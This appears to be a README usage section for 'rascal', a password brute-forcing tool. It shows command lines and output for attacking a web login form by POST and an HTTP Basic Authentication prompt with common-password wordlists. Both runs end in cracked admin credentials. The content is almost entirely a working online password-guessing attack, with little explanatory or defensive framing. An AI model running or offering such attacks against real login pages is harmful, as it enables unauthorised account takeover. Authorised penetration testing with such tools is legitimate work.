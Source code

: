 ### POST

    C:\tools\> .\rascal.exe --post -u https://***.com/123123/login.php -w C:\tools\xato-10k.txt --username admin --username_field user_id --password_field passwd --success_text OK

        -- SETTINGS VERIFICATION --
        url: https://***.com/123123/login.php
        username: admin
        password list: C:\tools\xato-10k.txt
        username post form field: user_id
        password post form field: passwd
        success message: OK
        failure message: None

    Does this look OK? (Y/n)
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999

---

### Basic Authentication

    $ python3 rascal.py --basic -u http://***.com/123123/321 -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt --username admin --failure_text 'Restricted Content'
    
            -- SETTINGS VERIFICATION --
            url: http://***.com/123123/321
            username: admin
            password list: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt
            success message: None
            failure message: Restricted Content
            custom user agent: None
            
    Does this look OK? (Y/n) 
    Prepared wordlist in memory with 1000 entries.
    
        ##########
        Response headers from source.
        I.e., Build your failure string from header details:
        Basic realm="Restricted Content"
        ##########
        
    [+] admin:12345